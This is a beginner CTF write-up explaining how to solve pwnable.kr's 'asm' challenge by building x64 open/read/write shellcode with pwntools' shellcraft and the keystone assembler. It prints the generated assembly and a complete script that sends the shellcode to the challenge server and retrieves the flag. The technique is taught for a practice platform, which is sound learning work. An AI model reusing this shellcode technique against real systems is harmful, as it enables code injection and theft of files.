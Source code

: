 ```yaml
---
title: Generating shellcode with pwntool's shellcraft
date: 2022-01-24 14:14:00 +0100
categories: [CTF, Binary Exploitation]
tags: [ctf, shellcode, pwntools, shellcraft, pwnable.kr, asm, assembly, keystone]
---
```


# A beginner CTF challenge

Recently I decided to learn more about binary exploitation.
I found [pwnable.kr](http://pwnable.kr), which is a platform containing pwn challenges with different difficulties.
To warm up a little bit and to get to know this platform's eco system I started solving the challenges in the 'Toddler's Bottle' category, which is the easiest one.
These are really for beginners, some of them are rather programming challenges.
Then I came across the challenge named 'asm'.
When I logged into the machine I found besides the program code a readme file and another file with a very long name.
The readme said that I should connect to port 9026 to start the real version of the program which can access the long named file.
The program greets us with the following message:

```
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
```

This means that we need to give a shellcode to the program which opens this long named file and outputs its contents, but only using the three listed syscalls.
At first I tought there is no way I will write this shellcode with that long filename by hand, so I started to look for a tool that can do this for us.
After some research I found about shellcraft, which is included in pwntools, that can create shellcode for different architectures very easily.

# Solving with Shellcraft

[Shellcraft](https://docs.pwntools.com/en/stable/shellcraft.html) is a shellcode module inside pwntools.
It provides very simple ways to generate specific shellcodes.
This module has different classes for different architectures and inside these classes there are methods which generate the desired assemblies.
For example the `open()` method will generate a short instruction sequence that sets up the parameters and calls the `open` syscall.
There are more complex methods too, for example `cat()`, which writes the content of a file to the standard output.

Since the challenge wants us to only use the `open`, `read` and `write` syscalls, we will need to use these three.
The `cat()` method cannot be used here, since it uses the `sendfile` syscall.
So let's see the three parts of the shellcode.

The first part is the `open` syscall, which opens the file given in the parameter and returns its file descriptor number, which we can use to access the file later.
The first parameter is the path to the file and the second parameter is the access mode.
For the second parameter we need `O_RDONLY`, which is 0 in glibc.
We can generate this instruction sequence the following way:

```python
>>> open_sc = shellcraft.amd64.open('./this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong', 0)
>>> print(open_sc)
    /* open(file='./this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong', oflag=0, mode=0) */
    /* push b'./this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong\x00' */
    push 0x67
    mov rax, 0x6e6f306f306f306f
    push rax
    mov rax, 0x306f306f306f3030
    push rax
    ...
    mov rax, 0x695f736968742f2e
    push rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
```

As we can see it generates a bunch of mov and push instructions to put the filename to the stack, then puts the stack address in the first paramter, 0 (O\_RDONLY) into the second and calls syscall number 2, which is `open`.
But this form will not suffice, since the `SYS_open` symbol is unknown to the assembler, but with some python string magic we can replace that with the number 2.

The next sequence will call the `read` syscall, which requires the file descriptor of our opened file, a buffer to store the input and a size.
The file descriptor will be returned in the rax register after the `open` syscall.
To put that into the first parameter of the `read()` method we can simply write `'rax'` into the first parameter.
Because we cannot really allocate memory for the input buffer, we can use the stack because we won't use the file name anymore.
We can put the rsp register in the second parameter the same way as rax.
For the size parameter I wrote 30, usually flags are not longer than that and it is not a problem if it is longer than the content of the flag file, it will just return 0.
This is how the generation looks like:

```python
>>> read_sc = shellcraft.amd64.read('rax', 'rsp', 30)
>>> print(read_sc)
    /* call read('rax', 'rsp', 0x1e) */
    mov rdi, rax
    xor eax, eax /* SYS_read */
    push 0x1e
    pop rdx
    mov rsi, rsp
    syscall
```

The `write` sequence will be just as easy.
The first parameter requires the file descriptor where we want to write.
We want to print the buffer to the standard output, so let's set it to 1, which is the file descriptor of stdout.
The second parameter is the pointer to the buffer from where we want to write.
We put the content into the stack, so we can just set rsp as the second parameter with the `'rsp'` syntax.
The third parameter is the length, which I set to 30 again.
This is the last part of the shellcode:

```python
write_sc = shellcraft.amd64.write(1, 'rsp', 30) 
>>> print(write_sc)
    /* write(fd=1, buf='rsp', n=0x1e) */
    push 1
    pop rdi
    push 0x1e
    pop rdx
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall
```

Here we will again need to replace the `SYS_write` string with the number 1, because we won't have this symbol.

Now we need to somehow transform these strings into instruction bytes.
For that we can use the [keystone engine](https://www.keystone-engine.org/) in python.
Here we only need to instantiate the `Ks` class setting it to 64 bit x86 architecture, and we can assemble the merged instructions.

```python
>>> ks = Ks(KS_ARCH_X86, KS_MODE_64)
>>> encoding, count = ks.asm(assembly)
>>> print(encoding)
[106, 103, 72, 184, 111, 48, 111, 48, ...]
```

We now only need to merge the bytes into a bytes variable, then we can send it to the target.
Here is the full script:

```python
#!/usr/bin/env python3

from pwn import *
from keystone import *

open_sc = shellcraft.amd64.open('./this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong', 0).replace('SYS_open', '2')
read_sc = shellcraft.amd64.read('rax', 'rsp', 30)
write_sc = shellcraft.amd64.write(1, 'rsp', 30).replace('SYS_write', '1')


assembly = open_sc + read_sc + write_sc


ks = Ks(KS_ARCH_X86, KS_MODE_64)
encoding, count = ks.asm(assembly)

shellcode = b''

for i in encoding:
    shellcode += i.to_bytes(1, byteorder='little')

r = remote('pwnable.kr', 9026)
r.recvuntil(b'give me your x64 shellcode: ')
r.sendline(shellcode)
flag = r.recvline().decode('utf-8')
print(f'[+] Flag: {flag}') 
```

If we run this, we will get the flag.

```
$ ./expl.py 
[+] Opening connection to pwnable.kr on port 9026: Done
[+] Flag: [---FLAG---]

[*] Closed connection to pwnable.kr port 9026
```

Although this was a beginner challenge, it made me learn a very powerful tool which I have not heard of before.
With shellcraft later harder challenges can be solved more easily than just writing bytes by hand.


